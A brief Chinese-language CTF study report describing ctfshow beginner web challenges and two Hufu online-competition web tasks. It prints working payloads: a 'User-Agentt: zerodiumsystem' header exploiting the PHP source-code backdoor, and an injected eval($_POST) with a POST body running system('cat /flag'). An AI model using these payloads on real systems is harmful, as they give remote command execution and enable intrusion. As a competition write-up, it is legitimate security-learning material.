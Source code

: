 Nep学习报告week0

由于Web入门指导一直没有上线，加上这周事务莫名较多，并未做过多的学习

## 1.ctfshow萌新web1-15

了解了一些php的函数绕过，以及进制转换，字节操作，运算符等等

## 2.虎符线上

web1：直接用火狐开环境后按f12进网络，重新传个user-agentt:zerodiumsystem('cat /flag');，再看响应就能得到flag

跟最近的php源码后门泄露有关，了解相关内容就很容易

web2：直接贴上payload

[GET]
(http://eci-2ze08g0rhfwawpumvs54.cloudeci1.ichunqiu.com/?a=:[]);eval($_POST[root]);//

[POST]
root=system(%27cat%20/flag%27);